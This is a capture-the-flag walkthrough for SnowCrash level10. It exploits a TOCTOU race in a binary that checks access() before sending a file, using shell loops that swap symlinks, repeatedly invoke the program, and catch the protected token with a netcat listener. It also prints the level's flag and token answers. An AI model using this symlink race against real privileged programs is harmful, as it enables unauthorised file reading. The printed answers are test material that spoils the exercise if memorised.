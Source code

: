
# SnowCrash Level10 Walkthrough

This walkthrough explains how we exploited a race condition vulnerability in `level10` to retrieve the flag.

---

## 🧭 Step 1: Exploring the Environment

Once logged in as `level10`, we check the contents of the home directory:

```bash
level10@SnowCrash:~$ ls
level10  token
```

- `level10`: an executable file  
- `token`: a file we presumably need access to, but it's protected

---

## ⚙️ Step 2: Understanding the Executable

Running the executable without arguments gives us usage instructions:

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Trying it on the `token`:

```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

As expected, we’re denied access.

---

## 🧠 Step 3: Investigating the Vulnerability

After some research, we find that the program likely uses the `access()` system call to check permissions. This system call is **insecure** because it introduces a **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability.

The `man access` page even warns:

> ⚠️ Warning: Using these calls to check if a user is authorized to open a file before actually doing so creates a security hole...

This means we can exploit the short window between the check and the use of the file by **swapping a symbolic link** quickly.

---

## 🛠️ Step 4: Exploiting the Race Condition

We’ll use three terminals to exploit this vulnerability.

### 🖥️ Terminal 1: Setup Toggle Between Symlinks

```bash
echo "hello" > /tmp/file

while true; do
    ln -sf ~/token /tmp/file2
    ln -sf /tmp/file /tmp/file2
done
```

This script constantly switches `file2` between a harmless file and the protected `token`.

### 🖥️ Terminal 2: Continuously Invoke the Vulnerable Program

```bash
while true; do
    ./level10 /tmp/file2 127.0.0.1
done
```

This attempts to send `file2` to localhost, hoping to catch the moment `file2` is pointing to `token`.

### 🖥️ Terminal 3: Listen for the Flag Using Netcat

```bash
nc -lk 127.0.0.1 6969
```

If the race condition is successful, the content of `token` will be sent here.

---

## 🏁 Step 5: Retrieve the Flag

Eventually, we catch the right moment, and the server sends the flag to the netcat listener:

```
woupa2yuojeeaaed06riuj63c
```

---

## ✅ Summary

- Discovered a race condition vulnerability in how the executable uses `access()` and `open()`.
- Used symbolic link swapping to bypass the access restriction.
- Listened on localhost to capture the flag when the exploit succeeded.

---

### 🎯 Flag: `woupa2yuojeeaaed06riuj63c`
### 🎯 token: `feulo4b72j7edeahuete3no7c`


